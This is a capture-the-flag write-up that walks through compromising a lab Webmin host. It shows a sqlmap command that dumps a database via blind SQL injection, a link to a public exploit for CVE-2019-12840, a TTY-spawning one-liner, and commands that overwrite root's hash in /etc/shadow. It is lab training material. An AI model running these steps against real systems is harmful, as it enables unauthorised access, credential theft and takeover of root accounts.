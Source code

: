 Desciprtion: `As a manager, I implemented a feedback system in our Webmin application to gather customer feedback and improve our services. However, during its implementation, the system Exposed some sensitive information of our employees. Could you help me identify and address these Common Vulnerabilities?`

### 1. Analysis first web application
- We have a feedback form. Let's check the source code first.

![sourcehtml](sourcehtml.png)

- We can see some comments about SQL query, most likely this web application has SQL injection vuln.
- Do a simple test with `'`.

![firstpart](firstpart.png)
- That's great, looks like we're on the right track.
- Continue to try to dump table data from the database. It is Blind-SQL Injection, we can write a simple script to dump the data but we already have a tool - *sqlmap*. `(Try to make up a code that exploits the vulnerability to show that you are a pro or you will just be a script kiddie:)))`
- Here is sqlmap command:
```
sqlmap -u http://192.168.26.128:5000/api/check_username --method=POST --data '{"username":"admin"}' -p username --headers='Content-Type: application/json' --dump
```
- Output:

![dumpdata.png](dumpdata.png)
- Now we got credentials, let's go to Webmin.
After login, we got a notice that

 ![webmindashboard](webmindashboard.png)
 - Search vuln for that webapp with this version, and we got a CVE `[CVE-2019-12840](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12840)`
 - We already know that it has a CVE, and the next simple work is find a POC to exploit that CVE. (https://github.com/KrE80r/webmin_cve-2019-12840_poc)
 
![exploit.png](exploit.png)
- After getting the shell, let's spawn tty shell first
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
- Look around, we got the 2nd part of the flag, but we are myuser, next step is become root.

![secondpart.png](secondpart.png)
- We have a hint that `Can you find my shadow ???` Maybe relate to /etc/shadow, let's check.

![shadowpermission.png](shadowpermission.png)
- We had read and write permission on `/etc/shadow`.
- In `shadow` file do not contain root password hash so we can not crack it, but we have write permission, try to make a password hash with `mkpasswd` then insert it into `shadow` file.
```
mkpasswd -m sha-512 new_password
```

![passwdhash.png](passwdhash.png)
Next step: insert that hash into shadow file between 2 first semicolon. The result wil be like this:
```
root:password_hash:.....
```
- Text editors are really stupid, we can use sed -i or vim -c to replace the text.
```
Example command:
sec -i 's/old_text/new_text/g' /etc/shadow
or
vim -c '%s/old_text/new_text/g' -c 'q' /etc/shadow
```
*Note: Remember to escape some special character in password hash like $*

![replacepasswdhash.png](replacepasswdhash.png)
- Next step is login into root with you password, so ez :))

![getroot.png](getroot.png)
- Final step, read the flag

![thirdpart.png](thirdpart.png)

```
Flag: FIA{$QL_!nj3ct10n_CVE_3xpl01t_@and_pr1v!l3g3_3scal@tion_1s_s0_fUn!}
```
